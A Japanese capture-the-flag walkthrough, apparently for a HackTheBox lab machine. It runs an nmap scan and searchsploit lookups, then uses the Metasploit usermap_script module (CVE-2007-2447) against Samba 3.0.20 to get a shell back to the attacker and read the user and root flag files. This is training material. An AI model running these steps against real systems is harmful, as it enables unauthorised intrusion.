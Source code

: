 # 1.Port Scan

対象マシンのポートをスキャン

ip=10.10.10.3

`nmap -sC -sV -Pn -p- $ip`

![eaab9b9771f219311fd2145b148960b7.png](../_resources/eaab9b9771f219311fd2145b148960b7.png)

# 2.FTP

ftpサーバに匿名で接続。

手掛かりになるFile無し

![769afbd3127a0f5fcaf3cb46808bf945.png](../_resources/769afbd3127a0f5fcaf3cb46808bf945.png)

# 4.searchsploit

検知したFTPのバージョンで検索

`searchsploit vsFTPd 2.3.4`

![8faa1b2cf94472e75321856f83ab6c8b.png](../_resources/8faa1b2cf94472e75321856f83ab6c8b.png)

対策済みであることを確認

![2a97359ea68c935446e24e8771575430.png](../_resources/2a97359ea68c935446e24e8771575430.png)

searchsploit Samba 3.0.20

![9abdd0fb32da738f1d4be0736e0672ef.png](../_resources/9abdd0fb32da738f1d4be0736e0672ef.png)

unix/remote/16320.rb で検索

CVE-2007-2447 の脆弱性を使用

![da4df3da554534a0ca7578b7f963ad30.png](../_resources/da4df3da554534a0ca7578b7f963ad30.png)

![918d3521012770e28cb388b17079fd2d.png](../_resources/918d3521012770e28cb388b17079fd2d.png)

Metasploit Framework を使用

`msfconsole`

![763d36dab0626ea4c7bbdfa7af387f2f.png](../_resources/763d36dab0626ea4c7bbdfa7af387f2f.png)

今回の脆弱性を検索

`search Samba 3.0.20`

![4bf037d81dfc304218ddc0ce31355c90.png](../_resources/4bf037d81dfc304218ddc0ce31355c90.png)



`use exploit/multi/samba/usermap_script`

![5b4bce16d00c620728c893655e5d41e3.png](../_resources/5b4bce16d00c620728c893655e5d41e3.png)

`show options`

![884f89831fac055df80c84919304adeb.png](../_resources/884f89831fac055df80c84919304adeb.png)

`set rhosts $ip`

`ifconfig`

`set lhosts tun0`

`show options`

![f48e609ae1a9aa30231472387222336f.png](../_resources/f48e609ae1a9aa30231472387222336f.png)

![661baf039931faee1cdf326152bd2302.png](../_resources/661baf039931faee1cdf326152bd2302.png)

`exploit`

![53490d3414d1e11e427291c46674ef15.png](../_resources/53490d3414d1e11e427291c46674ef15.png)

`whoami`

`cd makis`

`ls`

`cat user.txt`

![c9a725c76fafa1f5133c01bd58f0c058.png](../_resources/c9a725c76fafa1f5133c01bd58f0c058.png)

`find -name "root.txt"`

`cat root.txt`

![a9eb2357854bebfa5451e039c7bc2675.png](../_resources/a9eb2357854bebfa5451e039c7bc2675.png)